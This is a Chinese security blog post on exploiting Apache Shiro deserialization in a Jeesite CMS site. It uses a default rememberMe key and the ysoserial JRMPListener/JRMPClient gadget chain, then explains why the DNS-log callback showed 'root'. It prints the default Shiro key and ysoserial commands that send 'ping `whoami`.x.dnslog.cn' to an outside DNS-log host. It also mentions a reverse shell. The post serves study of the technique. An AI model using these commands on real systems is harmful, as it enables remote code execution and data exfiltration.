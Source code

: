 ```yaml
---
layout: about
category: about
Researchname: JRMP-Gadget
toc: true
permalink: /about/JRMP-Gadget/
---
```


# Shiro框架深入利用：JRMP-Gadget利用链浅析

> PartI: Stay Hungry, Stay Foolish. 
> 
> PartII: 学的越多，不懂得也就越多。

**2021年 6月30日 星期三 15时30分40秒 CST* 前不久，Fofa安全工程师某信正在愉快的网上冲浪，不一会群里丢出了一个惹眼的链接吸引了某信的注意。

- 链接格式：`http://{ip.addr}:{ip.port}/a/login`

**芽儿～当时我整个人的是这样的：**
<div class="col-lg-2">
<img align="left" src="https://i.loli.net/2021/11/18/iLHbaIctkf9GWpO.jpg"/>
</div>

<div>
因为这个链接实在是太熟悉了，浏览器访问，果然直接跳转：<br>
<code>/a/login;JSESSIONID=···</code><br>
和具有辨识度的Cookie：<code>jeesite.session.id</code><br>
<br>
一切都是这么的自然，我可真是太神气了。
</div>

梳理一下：

- Shiro 框架
- Jeesite CMS
	- 已知路由 `/a/、/f/`...

所以这个站就可以直接从Shiro入手来看，老三样：跑密钥 -> 利用链 -> Dnslog

不过跑密钥出了个小插曲，登录路由login处设置`rememberMe Cookie`时反包*Set-Cookie*不显示*deleteMe Cookie*，具体原因待更新：[*Different Shiro Framework deserialization analysis ideas*](/about/ShiroDeser/){:target="_blank"}，而从上面的特征我们已经可以肯定存在Shiro框架，当然也可以通过对不存在的路由进行Cookie设置来进行验证。

![shiro-cookie.png](https://i.loli.net/2021/11/18/5oPJbQEhrz34X8d.png)

由于上面的原因导致有一些匹配回包来检测shiro框架为逻辑工具就在原地划水不动弹，不慌，总有一些“尖子生”，跑出默认密钥：`kPH+bIxk5D2deZiIxcaaaA==`

紧接着：
```bash
[*] find: JRMPClient can be use
0: JRMPClient
```

- ysoserial.jar公网起JRMP端口，转发命令<code>ping `whoami`.x.dnslog.cn</code>
- JRMP监听显示流量建立链接，查看dnslog：

![shiro-dnslog.png](https://i.loli.net/2021/11/18/5EVuHQXA3doCfcJ.png)

`默认加密密钥 -> JRMPClient利用链 -> Shiro反序列化RCE root` 多么赏心悦目，一切都是那么地丝滑。
<div class="col-lg-3">
	<img  src="https://i.loli.net/2021/11/18/IxPRmipAQ4JfBjH.jpg"/>
</div>
<div>
	<div class="col-lg-8">
		<strong>然而却帅不过三秒：</strong>
		<img  src="https://i.loli.net/2021/11/18/rEDCbQHuTF3XY5K.png"/>
	</div>
</div>
<br><br><br>
<br><br><br>
<br><br>

## 提出问题

其实在这次渗透的过程中，我对于两个地方存疑：

- 第一个问题是开发向：就是Shiro框架识别阶段，`/a/login`路由配置Shiro对应Cookie后没有返回对应的Set-Cookie，如何实现的？同时我这里查了一些资料供参考
	- [Apache Shiro反序列化识别那些事](https://www.hetianlab.com/specialized/20200612143432){:target="_blank"}

- 第二个问题是JRMP Gadget利用阶段，为什么Dnslog记录显示为root，而现实情况下反弹的shell权限则是低权限？

### # 为什么不是root?

![JRMP-logic.png](https://i.loli.net/2021/11/18/LAM9NcPdRUYWa16.png)

如上图，整张图是我个人对于Java反序列化中对于JRMP利用链的过程理解，从`local Attacker`环节开始，具体细节在这里不做展开叙述，其中存在歧义的地方我使用红色部分进行了标记；个人分析存在的问题也是红色部分：

> `VPS - JRMP`阶段在服务器启动的时候命令为：
>
> ><code>java -cp ysoserial.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "ping `whoami`.x.dnslog.cn"</code>
> >
> >对应的：
> >`ysoserial.exploit.JRMPListener`利用类、`3333`本地JRMP监听端口、`CommonsCollections5`Java反序列化利用链以及转发<code>"ping `whoami`.x.dnslog.cn"</code>命令

再来看另外一张图片：

![jrmp-low-per.JPG](https://i.loli.net/2021/11/18/me6CANHghjYIOkR.jpg)

我们看上面这一张图，重点在于`ping root.zj6u6s.dnslog.cn`进程对应的用户同样是低权限用户，也就是说是低权限的用户去运行的<code>`whoami`</code>这个命令而且输出的是`root`，但是从Linux权限的常识来看是不会出现这样的情况的。所以有了以下设想：

- 我初步的设想是：**假设1:命令是在受害机器上执行**，那么有几种情况：
	- 1.1:会不会因为该用户是sudo用户才导致返回的dns记录为root？
	- 1.2:~~启动Tomcat服务的为root用户？~~（通过`ps -ef`可以直接排除，而且细想，若Tomcat用户为root，那么肯定反弹的用户也为root）

所以我针对1.1假设进行了实验进行正确型验证：
```bash
➜ bin4xin sudo -l

User bin4xin may run the following commands on bin4xin's MacbookPro:
    (ALL) ALL

➜ bin4xin (sudo) ping `whoami`.31veg3.dnslog.cn
PING bin4xin.31veg3.dnslog.cn (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.087 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.163 ms
```
我们可以通过上面的bash信息和下面的dnslog信息返回看到，与sudo用户无关
```bash
#是否添加sudo返回都如下：
#dnslog返回记录
bin4xin.31veg3.dnslog.cn	61.132.161.4	2021-07-05 13:44:34
bin4xin.31veg3.dnslog.cn	61.132.161.6	2021-07-05 13:44:34
```
所以这种假设我们就直接排除了；

- 第二种设想 **假设2:命令是在VPS机器上执行**，就是JRMP利用过程链那张图中红色的那一部分，我想：<code>"ping `whoami`.x.dnslog.cn"命令</code>转发前本地机器是否已经执行了`whoami`所以导致了受害机器执行的是root开头的命令呢？
	- 那么如果通过这种假设，过程就是：`JRMP Server Listen: *0.0.0.0:3333` -> 本地机器执行<code>`whoami`</code>
	- 受害机器访问JRMP Server，执行`ping root.x.dnslog.cn`。

这种情况下来看，实际上也能够说通，而实际上也正是如此，本来打算是在本地跑个Shiro走一整个流程的，但是直到我发现了这个：
```bash
➜ bin4xin java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 "ping `whoami`.6iep0z.dnslog.cn"
* Opening JRMP listener on 8888

#ysoserial.exploit.JRMPListener利用类监听状态下：
➜ bin4xin ps -ef|grep ping

  501  6895  6696   0  2:37下午 ttys004    0:00.54 java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn
```
看到`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn`进程一切已然清晰；

至此，本章核心阐述完毕。以上
